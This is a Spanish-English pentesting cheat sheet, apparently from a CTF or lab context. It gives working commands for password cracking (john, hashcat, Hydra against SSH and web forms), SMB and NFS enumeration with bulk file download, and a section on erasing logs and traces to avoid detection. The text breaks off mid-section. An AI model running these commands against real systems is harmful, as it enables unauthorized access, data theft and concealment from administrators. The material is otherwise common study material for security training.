 CRACKING PASSWORDS/LOGIN WEB
.............................

https://hashes.com/en/decrypt/hash
https://hashcat.net/wiki/doku.php?id=example_hashes

sudo john --format=[format] --wordlist=[path to wordlist] [path to file]

hydra -L users.txt -P pass.txt -t 10 <IP address> ssh -s 22

hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt

Replace "ssh" with any service name

hydra -L user.txt -P /usr/share/wordlists/rockyou.txt [IP] http-post-form "[URL]:[TOKEN-URL]:Login failed"
   Ejemplo: hydra -L /home/kali/Downloads/users.txt -P /usr/share/wordlists/rockyou.txt 'http-get-form://10.10.134.16/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=050toadub7n33f96ehi7jo83o1; security=low; security=low:F=Username and/or password incorrect' 


SMB
....

enum4linux -a <IP address>
smbclient -L IP -N

    Para conectarse:
        smbclient //IP/RECURSO -n
    Una vez dentro para descargar archivos:
        prompt off
        mget *
        smbget -R smb://IP/recurso

nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [IP]


NFS
....

*Listar recursos nfs en una maquina:
    showmount -e [IP]

*Para conectarse al recurso:
    sudo mount -t nfs IP:/recurso unacarpetanuestra


BORRAR RASTRO RAPIDAMENTE EN MAQUINAS LINUX
............................................

shred -zun 5 -v

https://hackingpassion.com/clear-your-tracks-on-linux/
https://null-byte.wonderhowto.com/how-to/clear-logs-bash-history-hacked-linux-systems-cover-your-tracks-remain-undetected-0244768/


ESCAPAR COMANDOS
.................

Simplemente hay que poner ciertos carácteres aleatorios ocupando el espacio que habria al poner el comando normal con su ruta completa, por ejemplo:
